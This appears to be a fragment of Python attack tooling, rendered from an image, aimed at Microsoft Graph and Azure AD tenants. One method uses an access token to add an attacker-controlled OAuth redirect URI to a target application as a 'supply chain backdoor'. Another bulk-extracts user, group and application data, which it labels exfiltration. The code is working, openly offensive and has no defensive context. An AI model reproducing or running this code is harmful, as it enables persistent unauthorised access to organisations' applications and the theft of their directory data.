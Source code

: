 ```
            return 'MEDIUM'

    def plant_supply_chain_backdoor(self, target_app_id):
        """Plant backdoor in supply chain application"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # Add additional redirect URI for backdoor access
        backdoor_redirect = "https://legitimate-looking-domain.com/oauth/callback"

        patch_data = {
            "web": {
                "redirectUris": [
                    "https://original-app.com/callback",
                    backdoor_redirect  # Malicious redirect URI
                ]
            }
        }

        patch_url = f"https://graph.microsoft.com/v1.0/applications/{target_app_id}"
        response = requests.patch(patch_url, headers=headers, json=patch_data)

        if response.status_code == 200:
            print(f"Backdoor planted in application: {target_app_id}")
            return True
        else:
            print(f"Failed to plant backdoor: {response.text}")
            return False

    def exfiltrate_organizational_data(self):
        """Exfiltrate sensitive organizational data"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        exfiltrated_data = {}

        # Extract user directory
        users_url = "https://graph.microsoft.com/v1.0/users?$select=displayName,userPrincipalName,jobTitle,department,manager"
        users_response = requests.get(users_url, headers=headers)
        exfiltrated_data['users'] = users_response.json().get('value', [])

        # Extract group memberships
        groups_url = "https://graph.microsoft.com/v1.0/groups?$select=displayName,description,members"
        groups_response = requests.get(groups_url, headers=headers)
        exfiltrated_data['groups'] = groups_response.json().get('value', [])

        # Extract application inventory
        apps_url = "https://graph.microsoft.com/v1.0/applications?$select=displayName,appId,publisherDomain"
        apps_response = requests.get(apps_url, headers=headers)
        exfiltrated_data['applications'] = apps_response.json().get('value', [])

        return exfiltrated_data
```
